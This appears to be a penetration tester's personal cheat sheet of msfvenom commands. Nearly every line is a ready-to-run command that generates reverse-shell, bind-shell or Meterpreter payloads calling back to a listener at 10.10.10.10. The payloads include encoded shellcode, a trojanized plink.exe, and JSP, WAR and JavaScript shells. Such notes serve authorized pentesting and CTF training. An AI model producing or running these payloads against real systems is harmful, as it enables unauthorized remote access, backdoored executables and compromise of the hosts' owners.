 ```yaml
---
description: >-
  My various MSFvenom commands to generate shellcode, reverse shells, and
  meterpreter payloads that I end up using over, and over, and over, and over...
---
```


# MSFvenom Cheetsheet

## SHELLCODE GENERATION

### Generic Shellcode

`msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e generic/none`

### Windows Reverse TCP Shell \(Shellcode x86\)

Only use this one if payload size is no problem and you can't determine the bad chars:

`msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`

### Windows Reverse TCP Shell Embedded in \`plink.exe\`

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o burmat_embedded.exe`

### Bind Shell Shellcode

I don't use bind shells often, but sometimes it's easier to open a port than issue a reverse connection:

`msfvenom -p windows/shell_bind_tcp RHOST=10.11.11.11 LPORT=1337 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f python`

## REVERSE SHELLS

Oddball reverse shells that can trip you up. Those "Wait, I  have done this before?" moments. Like when you see Tomcat running with default credentials or a ColdFusion Site \(fuck me...\)

### JSP Reverse Shell

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw -o burmat.jsp`

### JavaScript Reverse Shells

If you are attacking a Windows host:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f js_le -e generic/none`

If you are attacking a Linux host:

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 CMD=/bin/bash -f js_le -e generic/none`

### WAR \(Java\) Reverse Shell

`msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f war -o burmat.war`

## METERPRETER REVERSE PAYLOADS:

Don't just copy and paste - learn and understand the syntax.  These will all be for x86 machines, so just swap it up to x64 to suite your needs.

### Windows Meterpreter Payload

`msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -o burmat.exe`

### Windows Meterpreter Reverse HTTPS Payload \(x86\)

`msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -e x86/shikata_ga_nai -b '\x00' -f exe -o burmat.exe`

